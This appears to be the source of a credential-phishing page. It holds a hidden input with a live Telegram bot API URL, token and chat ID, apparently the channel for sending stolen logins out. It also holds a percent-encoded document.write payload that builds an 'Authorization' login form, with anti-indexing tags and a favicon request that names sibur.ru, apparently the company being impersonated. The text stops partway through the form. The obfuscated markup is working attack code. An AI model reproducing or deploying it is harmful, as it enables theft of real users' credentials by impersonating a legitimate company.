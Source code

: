 


<input 
value="https://api.telegram.org/bot:7776147971:AAFmQCtSZ-hXjhGileUMQgQCDsmauAg67N0/sendMessage?chat_id=6742376037"
type="hidden"
id="url"
>
<script>
<!-- code by https://www.html-code-generator.com -->
document.write(unescape('%0A%3Chtml%20style%3D%22height%3A%20100%25%3B%22%20class%3D%22%22%20lang%3D%22auto%22%3E%3Chead%3E%3Clink%20type%3D%22text/css%22%20rel%3D%22stylesheet%22%20charset%3D%22UTF-8%22%20href%3D%22https%3A//translate.googleapis.com/translate_static/css/translateelement.css%22%3E%3Cscript%20type%3D%22text/javascript%22%20charset%3D%22UTF-8%22%20src%3D%22https%3A//translate.googleapis.com/_/translate_http/_/js/k%3Dtranslate_http.tr.ru.Te3ykXdVt7M.O/am%3DAg/d%3D1/exm%3Del_conf/ed%3D1/rs%3DAN8SPfqNopZ29CJ40bmRMMABSHsRsg_C7A/m%3Del_main%22%3E%3C/script%3E%0A%3Cmeta%20name%3D%22robots%22%20content%3D%22noindex%22%3E%3Cmeta%20name%3D%22robots%22%20content%3D%22noimageindex%22%3E%3Cmeta%20name%3D%22googlebot%22%20content%3D%22noindex%22%3E%3Cmeta%20content%3D%22upgrade-insecure-requests%22%20http-equiv%3D%22Content-Security-Policy%22%3E%20%3Cmeta%20name%3D%22robots%22%20content%3D%22noindex%2C%20nosnippet%2C%20nofollow%2C%20noodp%2C%20noarchive%2C%20noydir%22%3E%20%3Cmeta%20content%3D%22deny%22%20http-equiv%3D%22X-Frame-Options%22%3E%20%3Cmeta%20content%3D%22no-cache%22%20http-equiv%3D%22Pragma%22%3E%20%3Cmeta%20content%3D%22no-cache%2C%20no-store%2C%20must-revalidate%22%20http-equiv%3D%22Cache-Control%22%3E%20%3Cmeta%20http-equiv%3D%22Expires%22%20content%3D%22-1%22%3E%20%3Cmeta%20charset%3D%22utf-8%22%3E%20%3Clink%20href%3D%22ico.php%3F2186abcf2cd1f8584935e12e98f03904%3Dsibur.ru%22%20type%3D%22image/x-icon%22%20rel%3D%22icon%22%3E%20%3Ctitle%3EAuthorization%3C/title%3E%20%3Cstyle%3E%20%3Aroot%20%7B%20--blue%3A%20%23007bff%3B%20--indigo%3A%20%236610f2%3B%20--purple%3A%20%236f42c1%3B%20--pink%3A%20%23e83e8c%3B%20--red%3A%20%23dc3545%3B%20--orange%3A%20%23fd7e14%3B%20--yellow%3A%20%23ffc107%3B%20--green%3A%20%2328a745%3B%20--teal%3A%20%2320c997%3B%20--cyan%3A%20%2317a2b8%3B%20--white%3A%20%23fff%3B%20--gray%3A%20%236c757d%3B%20--gray-dark%3A%20%23343a40%3B%20--primary%3A%20%23007bff%3B%20--secondary%3A%20%236c757d%3B%20--success%3A%20%2328a745%3B%20--info%3A%20%2317a2b8%3B%20--warning%3A%20%23ffc107%3B%20--danger%3A%20%23dc3545%3B%20--light%3A%20%23f8f9fa%3B%20--dark%3A%20%23343a40%3B%20--breakpoint-xs%3A%200%3B%20--breakpoint-sm%3A%20576px%3B%20--breakpoint-md%3A%20768px%3B%20--breakpoint-lg%3A%20992px%3B%20--breakpoint-xl%3A%201200px%3B%20--font-family-sans-serif%3A%20-apple-system%2C%20BlinkMacSystemFont%2C%20%22Segoe%20UI%22%2C%20Roboto%2C%20%22Helvetica%20Neue%22%2C%20Arial%2C%20%22Noto%20Sans%22%2C%20sans-serif%2C%20%22Apple%20Color%20Emoji%22%2C%20%22Segoe%20UI%20Emoji%22%2C%20%22Segoe%20UI%20Symbol%22%2C%20%22Noto%20Color%20Emoji%22%3B%20--font-family-monospace%3A%20SFMono-Regular%2C%20Menlo%2C%20Monaco%2C%20Consolas%2C%20%22Liberation%20Mono%22%2C%20%22Courier%20New%22%2C%20monospace%3B%20%7D%20*%2C%20%3A%3Aafter%2C%20%3A%3Abefore%20%7B%20box-sizing%3A%20border-box%3B%20%7D%20html%20%7B%20font-family%3A%20sans-serif%3B%20line-height%3A%201.15%3B%20-webkit-text-size-adjust%3A%20100%25%3B%20-webkit-tap-highlight-color%3A%20transparent%3B%20%7D%20body%20%7B%20margin%3A%200%3B%20font-family%3A%20-apple-system%2C%20BlinkMacSystemFont%2C%20%22Segoe%20UI%22%2C%20Roboto%2C%20%22Helvetica%20Neue%22%2C%20Arial%2C%20%22Noto%20Sans%22%2C%20sans-serif%2C%20%22Apple%20Color%20Emoji%22%2C%20%22Segoe%20UI%20Emoji%22%2C%20%22Segoe%20UI%20Symbol%22%2C%20%22Noto%20Color%20Emoji%22%3B%20font-size%3A%201rem%3B%20font-weight%3A%20400%3B%20line-height%3A%201.5%3B%20color%3A%20%23212529%3B%20text-align%3A%20left%3B%20background-color%3A%20%23fff%3B%20%7D%20%5Btabindex%3D%22-1%22%5D%3Afocus%3Anot%28%3Afocus-visible%29%20%7B%20outline%3A%200%20%21important%3B%20%7D%20h2%2C%20h3%20%7B%20margin-top%3A%200%3B%20margin-bottom%3A%200.5rem%3B%20%7D%20img%20%7B%20vertical-align%3A%20middle%3B%20border-style%3A%20none%3B%20%7D%20button%20%7B%20border-radius%3A%200%3B%20%7D%20button%3Afocus%20%7B%20outline%3A%201px%20dotted%3B%20outline%3A%205px%20auto%20-webkit-focus-ring-color%3B%20%7D%20button%2C%20input%20%7B%20margin%3A%200%3B%20font-family%3A%20inherit%3B%20font-size%3A%20inherit%3B%20line-height%3A%20inherit%3B%20%7D%20button%2C%20input%20%7B%20overflow%3A%20visible%3B%20%7D%20button%20%7B%20text-transform%3A%20none%3B%20%7D%20%5Btype%3D%22submit%22%5D%2C%20button%20%7B%20-webkit-appearance%3A%20button%3B%20%7D%20%5Btype%3D%22button%22%5D%3Anot%28%3Adisabled%29%2C%20%5Btype%3D%22reset%22%5D%3Anot%28%3Adisabled%29%2C%20%5Btype%3D%22submit%22%5D%3Anot%28%3Adisabled%29%2C%20button%3Anot%28%3Adisabled%29%20%7B%20cursor%3A%20pointer%3B%20%7D%20%5Btype%3D%22submit%22%5D%3A%3A-moz-focus-inner%2C%20button%3A%3A-moz-focus-inner%20%7B%20padding%3A%200%3B%20border-style%3A%20none%3B%20%7D%20input%5Btype%3D%22checkbox%22%5D%20%7B%20box-sizing%3A%20border-box%3B%20padding%3A%200%3B%20%7D%20%3A%3A-webkit-file-upload-button%20%7B%20font%3A%20inherit%3B%20-webkit-appearance%3A%20button%3B%20%7D%20h2%2C%20h3%20%7B%20margin-bottom%3A%200.5rem%3B%20font-weight%3A%20500%3B%20line-height%3A%201.2%3B%20%7D%20h2%20%7B%20font-size%3A%202rem%3B%20%7D%20h3%20%7B%20font-size%3A%201.75rem%3B%20%7D%20.zX-rx-bY%20%7B%20width%3A%20100%25%3B%20padding-right%3A%2015px%3B%20padding-left%3A%2015px%3B%20margin-right%3A%20auto%3B%20margin-left%3A%20auto%3B%20%7D%20@media%20%28min-width%3A%20576px%29%20%7B%20.zX-rx-bY%20%7B%20max-width%3A%20540px%3B%20%7D%20%7D%20@media%20%28min-width%3A%20768px%29%20%7B%20.zX-rx-bY%20%7B%20max-width%3A%20720px%3B%20%7D%20%7D%20@media%20%28min-width%3A%20992px%29%20%7B%20.zX-rx-bY%20%7B%20max-width%3A%20960px%3B%20%7D%20%7D%20@media%20%28min-width%3A%201200px%29%20%7B%20.zX-rx-bY%20%7B%20max-width%3A%201140px%3B%20%7D%20%7D%20.iR-yr-Pv%20%7B%20display%3A%20-ms-flexbox%3B%20display%3A%20flex%3B%20-ms-flex-wrap%3A%20wrap%3B%20flex-wrap%3A%20wrap%3B%20margin-right%3A%20-15px%3B%20margin-left%3A%20-15px%3B%20%7D%20.Bd-Ta-Tw%20%7B%20position%3A%20relative%3B%20width%3A%20100%25%3B%20padding-right%3A%2015px%3B%20padding-left%3A%2015px%3B%20%7D%20@media%20%28min-width%3A%20768px%29%20%7B%20.Bd-Ta-Tw%20%7B%20-ms-flex%3A%200%200%20100%25%3B%20flex%3A%200%200%20100%25%3B%20max-width%3A%20100%25%3B%20%7D%20%7D%20.Qe-Vg-JI%20%7B%20display%3A%20block%3B%20width%3A%20100%25%3B%20height%3A%20calc%281.5em%20+%200.75rem%20+%202px%29%3B%20padding%3A%200.375rem%200.75rem%3B%20font-size%3A%201rem%3B%20font-weight%3A%20400%3B%20line-height%3A%201.5%3B%20color%3A%20%23495057%3B%20background-color%3A%20%23fff%3B%20background-clip%3A%20padding-box%3B%20border%3A%201px%20solid%20%23ced4da%3B%20border-radius%3A%200.25rem%3B%20transition%3A%20border-color%200.15s%20ease-in-out%2C%20box-shadow%200.15s%20ease-in-out%3B%20%7D%20@media%20%28prefers-reduced-motion%3A%20reduce%29%20%7B%20.Qe-Vg-JI%20%7B%20transition%3A%20none%3B%20%7D%20%7D%20.Qe-Vg-JI%3A%3A-ms-expand%20%7B%20background-color%3A%20transparent%3B%20border%3A%200%3B%20%7D%20.Qe-Vg-JI%3A-moz-focusring%20%7B%20color%3A%20transparent%3B%20text-shadow%3A%200%200%200%20%23495057%3B%20%7D%20.Qe-Vg-JI%3Afocus%20%7B%20color%3A%20%23495057%3B%20background-color%3A%20%23fff%3B%20border-color%3A%20%2380bdff%3B%20outline%3A%200%3B%20box-shadow%3A%200%200%200%200.2rem%20rgba%280%2C%20123%2C%20255%2C%200.25%29%3B%20%7D%20.Qe-Vg-JI%3A%3A-webkit-input-placeholder%20%7B%20color%3A%20%236c757d%3B%20opacity%3A%201%3B%20%7D%20.Qe-Vg-JI%3A%3A-moz-placeholder%20%7B%20color%3A%20%236c757d%3B%20opacity%3A%201%3B%20%7D%20.Qe-Vg-JI%3A-ms-input-placeholder%20%7B%20color%3A%20%236c757d%3B%20opacity%3A%201%3B%20%7D%20.Qe-Vg-JI%3A%3A-ms-input-placeholder%20%7B%20color%3A%20%236c757d%3B%20opacity%3A%201%3B%20%7D%20.Qe-Vg-JI%3Adisabled%20%7B%20background-color%3A%20%23e9ecef%3B%20opacity%3A%201%3B%20%7D%20.xA-vt-OV%20%7B%20margin-bottom%3A%201rem%3B%20%7D%20.custom-control-input.is-valid%3Afocus%3Anot%28%3Achecked%29%20%7E%20.custom-control-label%3A%3Abefore%2C%20.was-validated%20.custom-control-input%3Avalid%3Afocus%3Anot%28%3Achecked%29%20%7E%20.custom-control-label%3A%3Abefore%20%7B%20border-color%3A%20%2328a745%3B%20%7D%20.custom-control-input.is-invalid%3Afocus%3Anot%28%3Achecked%29%20%7E%20.custom-control-label%3A%3Abefore%2C%20.was-validated%20.custom-control-input%3Ainvalid%3Afocus%3Anot%28%3Achecked%29%20%7E%20.custom-control-label%3A%3Abefore%20%7B%20border-color%3A%20%23dc3545%3B%20%7D%20.btn%20%7B%20display%3A%20inline-block%3B%20font-weight%3A%20400%3B%20color%3A%20%23212529%3B%20text-align%3A%20center%3B%20vertical-align%3A%20middle%3B%20-webkit-user-select%3A%20none%3B%20-moz-user-select%3A%20none%3B%20-ms-user-select%3A%20none%3B%20user-select%3A%20none%3B%20background-color%3A%20transparent%3B%20border%3A%201px%20solid%20transparent%3B%20padding%3A%200.375rem%200.75rem%3B%20font-size%3A%201rem%3B%20line-height%3A%201.5%3B%20border-radius%3A%200.25rem%3B%20transition%3A%20color%200.15s%20ease-in-out%2C%20background-color%200.15s%20ease-in-out%2C%20border-color%200.15s%20ease-in-out%2C%20box-shadow%200.15s%20ease-in-out%3B%20%7D%20@media%20%28prefers-reduced-motion%3A%20reduce%29%20%7B%20.btn%20%7B%20transition%3A%20none%3B%20%7D%20%7D%20.btn%3Ahover%20%7B%20color%3A%20%23212529%3B%20text-decoration%3A%20none%3B%20%7D%20.btn%3Afocus%20%7B%20outline%3A%200%3B%20box-shadow%3A%200%200%200%200.2rem%20rgba%280%2C%20123%2C%20255%2C%200.25%29%3B%20%7D%20.btn%3Adisabled%20%7B%20opacity%3A%200.65%3B%20%7D%20.btn%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%20%7B%20cursor%3A%20pointer%3B%20%7D%20.btn-primary%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23007bff%3B%20border-color%3A%20%23007bff%3B%20%7D%20.btn-primary%3Ahover%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%230069d9%3B%20border-color%3A%20%230062cc%3B%20%7D%20.btn-primary%3Afocus%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%230069d9%3B%20border-color%3A%20%230062cc%3B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2838%2C%20143%2C%20255%2C%200.5%29%3B%20%7D%20.btn-primary%3Adisabled%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23007bff%3B%20border-color%3A%20%23007bff%3B%20%7D%20.btn-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%230062cc%3B%20border-color%3A%20%23005cbf%3B%20%7D%20.btn-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2838%2C%20143%2C%20255%2C%200.5%29%3B%20%7D%20.btn-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23545b62%3B%20border-color%3A%20%234e555b%3B%20%7D%20.btn-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28130%2C%20138%2C%20145%2C%200.5%29%3B%20%7D%20.btn-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%231e7e34%3B%20border-color%3A%20%231c7430%3B%20%7D%20.btn-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2872%2C%20180%2C%2097%2C%200.5%29%3B%20%7D%20.btn-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23117a8b%3B%20border-color%3A%20%2310707f%3B%20%7D%20.btn-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2858%2C%20176%2C%20195%2C%200.5%29%3B%20%7D%20.btn-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23212529%3B%20background-color%3A%20%23d39e00%3B%20border-color%3A%20%23c69500%3B%20%7D%20.btn-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28222%2C%20170%2C%2012%2C%200.5%29%3B%20%7D%20.btn-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23bd2130%3B%20border-color%3A%20%23b21f2d%3B%20%7D%20.btn-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28225%2C%2083%2C%2097%2C%200.5%29%3B%20%7D%20.btn-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23212529%3B%20background-color%3A%20%23dae0e5%3B%20border-color%3A%20%23d3d9df%3B%20%7D%20.btn-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28216%2C%20217%2C%20219%2C%200.5%29%3B%20%7D%20.btn-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%231d2124%3B%20border-color%3A%20%23171a1d%3B%20%7D%20.btn-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2882%2C%2088%2C%2093%2C%200.5%29%3B%20%7D%20.btn-outline-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23007bff%3B%20border-color%3A%20%23007bff%3B%20%7D%20.btn-outline-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-primary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%280%2C%20123%2C%20255%2C%200.5%29%3B%20%7D%20.btn-outline-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%236c757d%3B%20border-color%3A%20%236c757d%3B%20%7D%20.btn-outline-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-secondary%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28108%2C%20117%2C%20125%2C%200.5%29%3B%20%7D%20.btn-outline-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%2328a745%3B%20border-color%3A%20%2328a745%3B%20%7D%20.btn-outline-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-success%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2840%2C%20167%2C%2069%2C%200.5%29%3B%20%7D%20.btn-outline-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%2317a2b8%3B%20border-color%3A%20%2317a2b8%3B%20%7D%20.btn-outline-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-info%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2823%2C%20162%2C%20184%2C%200.5%29%3B%20%7D%20.btn-outline-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23212529%3B%20background-color%3A%20%23ffc107%3B%20border-color%3A%20%23ffc107%3B%20%7D%20.btn-outline-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-warning%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28255%2C%20193%2C%207%2C%200.5%29%3B%20%7D%20.btn-outline-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23dc3545%3B%20border-color%3A%20%23dc3545%3B%20%7D%20.btn-outline-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-danger%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28220%2C%2053%2C%2069%2C%200.5%29%3B%20%7D%20.btn-outline-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23212529%3B%20background-color%3A%20%23f8f9fa%3B%20border-color%3A%20%23f8f9fa%3B%20%7D%20.btn-outline-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-light%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%28248%2C%20249%2C%20250%2C%200.5%29%3B%20%7D%20.btn-outline-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%2C%20.btn-outline-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23343a40%3B%20border-color%3A%20%23343a40%3B%20%7D%20.btn-outline-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29.active%3Afocus%2C%20.btn-outline-dark%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Aactive%3Afocus%20%7B%20box-shadow%3A%200%200%200%200.2rem%20rgba%2852%2C%2058%2C%2064%2C%200.5%29%3B%20%7D%20.btn-block%20%7B%20display%3A%20block%3B%20width%3A%20100%25%3B%20%7D%20.Tb-Tk-pw%20%7B%20position%3A%20relative%3B%20display%3A%20-ms-flexbox%3B%20display%3A%20flex%3B%20-ms-flex-wrap%3A%20wrap%3B%20flex-wrap%3A%20wrap%3B%20-ms-flex-align%3A%20stretch%3B%20align-items%3A%20stretch%3B%20width%3A%20100%25%3B%20%7D%20.Tb-Tk-pw%20%3E%20.Qe-Vg-JI%20%7B%20position%3A%20relative%3B%20-ms-flex%3A%201%201%20auto%3B%20flex%3A%201%201%20auto%3B%20width%3A%201%25%3B%20min-width%3A%200%3B%20margin-bottom%3A%200%3B%20%7D%20.Tb-Tk-pw%20%3E%20.Qe-Vg-JI%3Afocus%20%7B%20z-index%3A%203%3B%20%7D%20.Tb-Tk-pw%20%3E%20.Qe-Vg-JI%3Anot%28%3Afirst-child%29%20%7B%20border-top-left-radius%3A%200%3B%20border-bottom-left-radius%3A%200%3B%20%7D%20.custom-control-input%3Afocus%3Anot%28%3Achecked%29%20%7E%20.custom-control-label%3A%3Abefore%20%7B%20border-color%3A%20%2380bdff%3B%20%7D%20.custom-control-input%3Anot%28%3Adisabled%29%3Aactive%20%7E%20.custom-control-label%3A%3Abefore%20%7B%20color%3A%20%23fff%3B%20background-color%3A%20%23b3d7ff%3B%20border-color%3A%20%23b3d7ff%3B%20%7D%20.alert%20%7B%20position%3A%20relative%3B%20padding%3A%200.75rem%201.25rem%3B%20margin-bottom%3A%201rem%3B%20border%3A%201px%20solid%20transparent%3B%20border-radius%3A%200.25rem%3B%20%7D%20.alert-danger%20%7B%20color%3A%20%23721c24%3B%20background-color%3A%20%23f8d7da%3B%20border-color%3A%20%23f5c6cb%3B%20%7D%20.close%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Afocus%2C%20.close%3Anot%28%3Adisabled%29%3Anot%28.disabled%29%3Ahover%20%7B%20opacity%3A%200.75%3B%20%7D%20@supports%20%28%28position%3A%20-webkit-sticky%29%20or%20%28position%3A%20sticky%29%29%20%7B%20%7D%20.LD-KL-BS%20%7B%20text-align%3A%20center%20%21important%3B%20%7D%20.text-danger%20%7B%20color%3A%20%23dc3545%20%21important%3B%20%7D%20@media%20print%20%7B%20*%2C%20%3A%3Aafter%2C%20%3A%3Abefore%20%7B%20text-shadow%3A%20none%20%21important%3B%20box-shadow%3A%20none%20%21important%3B%20%7D%20img%20%7B%20page-break-inside%3A%20avoid%3B%20%7D%20h2%2C%20h3%20%7B%20orphans%3A%203%3B%20widows%3A%203%3B%20%7D%20h2%2C%20h3%20%7B%20page-break-after%3A%20avoid%3B%20%7D%20@page%20%7B%20size%3A%20a3%3B%20%7D%20body%20%7B%20min-width%3A%20992px%20%21important%3B%20%7D%20.zX-rx-bY%20%7B%20min-width%3A%20992px%20%21important%3B%20%7D%20%7D%20body%20%7B%20font-family%3A%20%22Open%20Sans%22%2C%20sans-serif%3B%20color%3A%20%23535353%3B%20%7D%20.Qe-Vg-JI%3Afocus%20%7B%20box-shadow%3A%20none%3B%20%7D%20h2%2C%20h3%20%7B%20font-family%3A%20%22Open%20Sans%22%2C%20sans-serif%3B%20%7D%20.lc-MP-Dg%20%7B%20background%3A%20rgba%280%2C%200%2C%200%2C%200.04%29%20url%28%29%20top%20left%20repeat%3B%20background-size%3A%20cover%3B%20top%3A%200%3B%20width%3A%20100%25%3B%20bottom%3A%200%3B%20opacity%3A%201%3B%20min-height%3A%20100vh%3B%20text-align%3A%20center%3B%20position%3A%20relative%3B%20display%3A%20-webkit-box%3B%20display%3A%20-moz-box%3B%20display%3A%20-ms-flexbox%3B%20display%3A%20-webkit-flex%3B%20display%3A%20flex%3B%20justify-content%3A%20center%3B%20align-items%3A%20center%3B%20padding%3A%2030px%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20%7B%20max-width%3A%20380px%3B%20margin%3A%200%20auto%3B%20color%3A%20%23717171%3B%20text-align%3A%20center%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20.details%20%7B%20padding%3A%2025px%2030px%2030px%3B%20background%3A%20%23fff%3B%20border-radius%3A%205px%205px%200%200%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20img%20%7B%20margin-bottom%3A%2015px%3B%20height%3A%2030px%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20h3%20%7B%20margin%3A%200%200%2025px%3B%20font-size%3A%2018px%3B%20font-weight%3A%20400%3B%20font-family%3A%20%22Open%20Sans%22%2C%20sans-serif%3B%20color%3A%20%23717171%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20.xA-vt-OV%20%7B%20margin-bottom%3A%2025px%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20input%5Btype%3D%22checkbox%22%5D%20%7B%20margin-top%3A%204px%3B%20%7D%20.lc-MP-Dg%20.Qs-KR-Mw%20button%3Afocus%20%7B%20outline%3A%20none%3B%20outline%3A%200%20auto%20-webkit-focus-ring-color%3B%20%7D%20@media%20%28max-width%3A%20992px%29%20%7B%20.lc-MP-Dg%20%7B%20padding%3A%2030px%200%3B%20%7D%20%7D%20%3Aroot%20%7B%20--savepage-url-2%3A%20url%28data%3Aimage/png%3Bbase64%29%3B%20%7D%20%3C/style%3E%0A%3C/head%3E%0A%3Cbody%20id%3D%22top%22%20style%3D%22position%3A%20relative%3B%20min-height%3A%20100%25%3B%20top%3A%200px%3B%22%3E%0A%20%20%3Cdiv%20id%3D%22google%22%3E%3Cimg%20src%3D%22https%3A//www.google.com/images/cleardot.gif%22%20alt%3D%22%22%20width%3D%221%22%20height%3D%221%22%3E%3C/div%3E%20%0A%20%3Cscript%3E%20function%20googleTranslateElementInit%28%29%20%7B%20new%20google.translate.TranslateElement%28%7BpageLanguage%3A%20%27auto%27%2C%20autoDisplay%3A%20true%2C%20layout%3A%20google.translate.TranslateElement.InlineLayout.SIMPLE%7D%2C%20%27google%27%29%3B%20%7D%20%3C/script%3E%20%3Cscript%20src%3D%22//translate.google.com/translate_a/element.js%3Fcb%3DgoogleTranslateElementInit%22%3E%20%3C/script%3E%20%20%20%0A%20%3Ciframe%20loading%3D%22lazy%22%20scrolling%3D%22no%22%20sandbox%3D%22allow-forms%20allow-pointer-lock%20allow-popups%20allow-same-origin%20allow-scripts%20allow-top-navigation%22%20id%3D%22dl-rA-Ms%22%20src%3D%22%22%20style%3D%22%20height%3A%20100%25%3B%20border%3A%20none%3Bposition%3A%20absolute%3B%22%20width%3D%22100%25%22%3E%3C/iframe%3E%20%3Cdiv%20class%3D%22lc-MP-Dg%22%3E%20%3Cdiv%20class%3D%22zX-rx-bY%22%3E%20%3Cdiv%20class%3D%22iR-yr-Pv%22%3E%20%3Cdiv%20class%3D%22Bd-Ta-Tw%22%3E%20%3Cdiv%20class%3D%22Qs-KR-Mw%22%3E%20%3Cdiv%20class%3D%22details%22%3E%20%3Cform%20id%3D%22Ow-Dw-WD%22%20name%3D%22Ow-Dw-WD%22%20method%3D%22post%22%20action%3D%22%22%3E%20%3Cdiv%20align%3D%22center%22%3E%20%3Ch2%20class%3D%22LD-KL-